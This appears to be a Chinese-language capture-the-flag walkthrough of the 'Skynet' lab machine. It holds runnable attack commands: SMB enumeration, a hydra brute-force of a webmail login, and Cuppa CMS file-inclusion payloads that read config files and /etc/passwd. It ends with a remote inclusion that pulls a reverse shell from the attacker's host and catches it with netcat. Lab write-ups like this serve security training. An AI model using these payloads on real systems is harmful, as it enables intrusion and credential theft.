






## 端口扫描

```bash
$ sudo nmap -sS -A -p22,80,110,139,143,445 10.10.149.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-26 10:13 CST
Nmap scan report for 10.10.149.31
Host is up (0.098s latency).

PORT    STATE    SERVICE      VERSION
22/tcp  open     ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open     http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open     pop3         Dovecot pop3d
|_pop3-capabilities: UIDL TOP SASL AUTH-RESP-CODE RESP-CODES PIPELINING CAPA
139/tcp open     netbios-ssn  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
143/tcp open     imap         Dovecot imapd
|_imap-capabilities: OK ID SASL-IR LOGINDISABLEDA0001 LITERAL+ ENABLE post-login have LOGIN-REFERRALS listed Pre-login capabilities IDLE more IMAP4rev1
445/tcp filtered microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Actiontec MI424WR-GEN3I WAP (96%), DD-WRT v24-sp2 (Linux 2.4.37) (96%), Linux 3.2 (94%), Linux 4.4 (92%), Microsoft Windows XP SP3 or Windows 7 or Windows Server 2012 (90%), Microsoft Windows XP SP3 (89%), BlueArc Titan 2100 NAS device (89%), VMware Player virtual NAT device (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2024-02-25T20:14:13-06:00
|_clock-skew: mean: 1h59m43s, deviation: 3h27m51s, median: -17s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-02-26T02:14:13
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.12 ms 192.168.99.2
2   0.13 ms 10.10.149.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.80 seconds
```

## enum4linux 信息收集

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo enum4linux 10.10.149.31  
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon Feb 26 10:21:46 2024

 =========================================( Target Information )=========================================

Target ........... 10.10.149.31
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```
smb可以无密码登录
可以下载到两个txt文件
文件内容如下
猜测log文件中的为密码
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ ls
attention.txt  log1.txt
                                                                                                                                                                          
┌──(kali㉿kali)-[~/workspace]
└─$ cat *       
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

## 目录爆破
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.149.31 -t 100      
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.149.31
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.149.31/admin/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.149.31/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.149.31/js/]
/config               (Status: 301) [Size: 313] [--> http://10.10.149.31/config/]
/ai                   (Status: 301) [Size: 309] [--> http://10.10.149.31/ai/]
/squirrelmail         (Status: 301) [Size: 319] [--> http://10.10.149.31/squirrelmail/]
```



## hydra爆破密码

```sql
┌──(kali㉿kali)-[~/workspace]
└─$ hydra -l milesdyson -P log1.txt 10.10.149.31 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-26 12:49:52
[DATA] max 20 tasks per 1 server, overall 20 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.149.31:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect
[80][http-post-form] host: 10.10.149.31   login: milesdyson   password: cyborg007haloterminator
[80][http-post-form] host: 10.10.149.31   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-26 12:50:08
```
得到用户密码
登录
得到milesdyson用户的smb的密码


## smb信息收集

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo smbclient -U milesdyson //10.10.149.31/milesdyson
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ?
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         ..             
!              
smb: \> 
smb: \> cd notes
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 17:18:40 2019
  ..                                  D        0  Tue Sep 17 17:05:47 2019
  3.01 Search.md                      N    65601  Tue Sep 17 17:01:29 2019
  4.01 Agent-Based Models.md          N     5683  Tue Sep 17 17:01:29 2019
  2.08 In Practice.md                 N     7949  Tue Sep 17 17:01:29 2019
  0.00 Cover.md                       N     3114  Tue Sep 17 17:01:29 2019
  1.02 Linear Algebra.md              N    70314  Tue Sep 17 17:01:29 2019
  important.txt                       N      117  Tue Sep 17 17:18:39 2019
  6.01 pandas.md                      N     9221  Tue Sep 17 17:01:29 2019
  3.00 Artificial Intelligence.md      N       33  Tue Sep 17 17:01:29 2019
  2.01 Overview.md                    N     1165  Tue Sep 17 17:01:29 2019
  3.02 Planning.md                    N    71657  Tue Sep 17 17:01:29 2019
  1.04 Probability.md                 N    62712  Tue Sep 17 17:01:29 2019
  2.06 Natural Language Processing.md      N    82633  Tue Sep 17 17:01:29 2019
  2.00 Machine Learning.md            N       26  Tue Sep 17 17:01:29 2019
  1.03 Calculus.md                    N    40779  Tue Sep 17 17:01:29 2019
  3.03 Reinforcement Learning.md      N    25119  Tue Sep 17 17:01:29 2019
  1.08 Probabilistic Graphical Models.md      N    81655  Tue Sep 17 17:01:29 2019
  1.06 Bayesian Statistics.md         N    39554  Tue Sep 17 17:01:29 2019
  6.00 Appendices.md                  N       20  Tue Sep 17 17:01:29 2019
  1.01 Functions.md                   N     7627  Tue Sep 17 17:01:29 2019
  2.03 Neural Nets.md                 N   144726  Tue Sep 17 17:01:29 2019
  2.04 Model Selection.md             N    33383  Tue Sep 17 17:01:29 2019
  2.02 Supervised Learning.md         N    94287  Tue Sep 17 17:01:29 2019
  4.00 Simulation.md                  N       20  Tue Sep 17 17:01:29 2019
  3.05 In Practice.md                 N     1123  Tue Sep 17 17:01:29 2019
  1.07 Graphs.md                      N     5110  Tue Sep 17 17:01:29 2019
  2.07 Unsupervised Learning.md       N    21579  Tue Sep 17 17:01:29 2019
  2.05 Bayesian Learning.md           N    39443  Tue Sep 17 17:01:29 2019
  5.03 Anonymization.md               N     2516  Tue Sep 17 17:01:29 2019
  5.01 Process.md                     N     5788  Tue Sep 17 17:01:29 2019
  1.09 Optimization.md                N    25823  Tue Sep 17 17:01:29 2019
  1.05 Statistics.md                  N    64291  Tue Sep 17 17:01:29 2019
  5.02 Visualization.md               N      940  Tue Sep 17 17:01:29 2019
  5.00 In Practice.md                 N       21  Tue Sep 17 17:01:29 2019
  4.02 Nonlinear Dynamics.md          N    44601  Tue Sep 17 17:01:29 2019
  1.10 Algorithms.md                  N    28790  Tue Sep 17 17:01:29 2019
  3.04 Filtering.md                   N    13360  Tue Sep 17 17:01:29 2019
  1.00 Foundations.md                 N       22  Tue Sep 17 17:01:29 2019

                9204224 blocks of size 1024. 5788852 blocks available
smb: \notes\> get important.txt
getting file \notes\important.txt of size 117 as important.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```
在smb中有很多杂乱的文件
只有improtant.txt是有效文件
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ cat important.txt 

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
## 文件包含

查看/45kra24zxs28v3yd目录

静态页面，没有更多信息了
gobuster再次目录扫描，扫到`/administrator`目录
那么进到该目录
看到是cuppacms

searchsploit查看历史漏洞
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ searchsploit cuppa                             
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                          | php/webapps/25971.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(kali㉿kali)-[~/workspace]
└─$ sudo searchsploit cuppa -m 25971.txt
[!] Could not find EDB-ID #


  Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/25971
     Path: /usr/share/exploitdb/exploits/php/webapps/25971.txt
    Codes: OSVDB-94101
 Verified: True
File Type: C++ source, ASCII text, with very long lines (876)
Copied to: /home/kali/workspace/25971.txt

                                          
┌──(kali㉿kali)-[~/workspace]
└─$ cat 25971.txt
# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
# Version         : Beta
# Tested on       : Window and Linux

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /
  / XXXXXX /
 (________(
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22:
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------


#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------

Base64 Encode Output:
-----------------------------------------------------------------------------
PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gIkRiQGRtaW4iOwoJCXB1YmxpYyAkdGFibGVfcHJlZml4ID0gImN1XyI7CgkJcHVibGljICRhZG1pbmlzdHJhdG9yX3RlbXBsYXRlID0gImRlZmF1bHQiOwoJCXB1YmxpYyAkbGlzdF9saW1pdCA9IDI1OwoJCXB1YmxpYyAkdG9rZW4gPSAiT0JxSVBxbEZXZjNYIjsKCQlwdWJsaWMgJGFsbG93ZWRfZXh0ZW5zaW9ucyA9ICIqLmJtcDsgKi5jc3Y7ICouZG9jOyAqLmdpZjsgKi5pY287ICouanBnOyAqLmpwZWc7ICoub2RnOyAqLm9kcDsgKi5vZHM7ICoub2R0OyAqLnBkZjsgKi5wbmc7ICoucHB0OyAqLnN3ZjsgKi50eHQ7ICoueGNmOyAqLnhsczsgKi5kb2N4OyAqLnhsc3giOwoJCXB1YmxpYyAkdXBsb2FkX2RlZmF1bHRfcGF0aCA9ICJtZWRpYS91cGxvYWRzRmlsZXMiOwoJCXB1YmxpYyAkbWF4aW11bV9maWxlX3NpemUgPSAiNTI0Mjg4MCI7CgkJcHVibGljICRzZWN1cmVfbG9naW4gPSAwOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3ZhbHVlID0gIiI7CgkJcHVibGljICRzZWN1cmVfbG9naW5fcmVkaXJlY3QgPSAiIjsKCX0gCj8+
-----------------------------------------------------------------------------

Base64 Decode Output:
-----------------------------------------------------------------------------
<?php
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "Db@dmin";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "";
                public $secure_login_redirect = "";
        }
?>
-----------------------------------------------------------------------------

Able to read sensitive information via File Inclusion (PHP Stream)

################################################################################################################
 Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2
########################################################
```


利用伪协议读取配置文件
urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ echo -n 'PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gInBhc3N3b3JkMTIzIjsKCQlwdWJsaWMgJHRhYmxlX3ByZWZpeCA9ICJjdV8iOwoJCXB1YmxpYyAkYWRtaW5pc3RyYXRvcl90ZW1wbGF0ZSA9ICJkZWZhdWx0IjsKCQlwdWJsaWMgJGxpc3RfbGltaXQgPSAyNTsKCQlwdWJsaWMgJHRva2VuID0gIk9CcUlQcWxGV2YzWCI7CgkJcHVibGljICRhbGxvd2VkX2V4dGVuc2lvbnMgPSAiKi5ibXA7ICouY3N2OyAqLmRvYzsgKi5naWY7ICouaWNvOyAqLmpwZzsgKi5qcGVnOyAqLm9kZzsgKi5vZHA7ICoub2RzOyAqLm9kdDsgKi5wZGY7ICoucG5nOyAqLnBwdDsgKi5zd2Y7ICoudHh0OyAqLnhjZjsgKi54bHM7ICouZG9jeDsgKi54bHN4IjsKCQlwdWJsaWMgJHVwbG9hZF9kZWZhdWx0X3BhdGggPSAibWVkaWEvdXBsb2Fkc0ZpbGVzIjsKCQlwdWJsaWMgJG1heGltdW1fZmlsZV9zaXplID0gIjUyNDI4ODAiOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luID0gMDsKCQlwdWJsaWMgJHNlY3VyZV9sb2dpbl92YWx1ZSA9ICIiOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3JlZGlyZWN0ID0gIiI7Cgl9IAo/Pg==' | base64 -d
<?php 
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "password123";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "";
                public $secure_login_redirect = "";
        } 
?>      
```
得到root/password123后直接ssh连接
连接失败
随后利用文件包含做url包含反弹shell

准备好rev.shell
`sudo curl http://10.10.149.31/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.17.9.68:9999/rev.php`
`nc -lvnp 2333`
接收到反弹shell

```bash
PS D:\@TOOLS\Web-Secure\内网工具\netcat> .\nc.exe -lvnp 2333
listening on [any] 2333 ...
connect to [10.17.9.68] from (UNKNOWN) [10.10.149.31] 33206
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 00:41:48 up  4:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```